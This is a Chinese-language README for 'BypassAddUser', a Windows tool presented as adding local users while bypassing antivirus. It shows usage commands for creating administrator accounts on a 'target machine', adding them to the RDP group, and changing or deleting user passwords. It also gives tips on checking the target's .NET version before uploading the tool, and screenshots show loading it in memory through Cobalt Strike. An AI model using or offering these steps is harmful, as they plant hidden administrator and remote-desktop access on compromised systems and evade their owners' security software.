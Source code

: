 # BypassAddUser
绕过杀软添加用户

## 感谢 AnonySec 大佬的宝贵建议

已测Win2008,Win2012,Win10都没问题

**注意密码复杂性！！！**

**注意密码复杂性！！！**

**注意密码复杂性！！！**

### 2020.12.12 更新：重构代码，加入添加rdp组功能

```
Usage: BypassAddUser.exe -u username -p password -g groups    添加用户
       BypassAddUser.exe -u username -p password -g groups -rdp    添加用户，并添加到rdp组
       BypassAddUser.exe -c UserName NewPassword    更改用户密码
       BypassAddUser.exe -d UserName    删除用户
Example: BypassAddUser.exe -u test -p testpass -g administrators
         BypassAddUser.exe -u test -p testpass -g administrators -rdp
         BypassAddUser.exe -c test NewtestPass
         BypassAddUser.exe -d test
```

### 上传到目标机器注意目标机器存在的`.net`版本，win2008推荐3.5版本，win2012推荐4.0版本

可使用微软社区的工具来检查目标机器存在的`.net`版本

微软地址：   https://docs.microsoft.com/zh-cn/dotnet/framework/migration-guide/how-to-determine-which-versions-are-installed

github地址：  https://github.com/jmalarcon/DotNetVersions

![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_13-04-30.jpg)

![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_13-04-43.jpg)



### 添加用户，并加入rdp组
![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_12-32-57.jpg)

### cs内存加载
![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_12-43-26.jpg)

![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_12-43-40.jpg)

![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_12-43-48.jpg)

## 参考链接
https://docs.microsoft.com/zh-cn/troubleshoot/dotnet/csharp/add-user-local-system
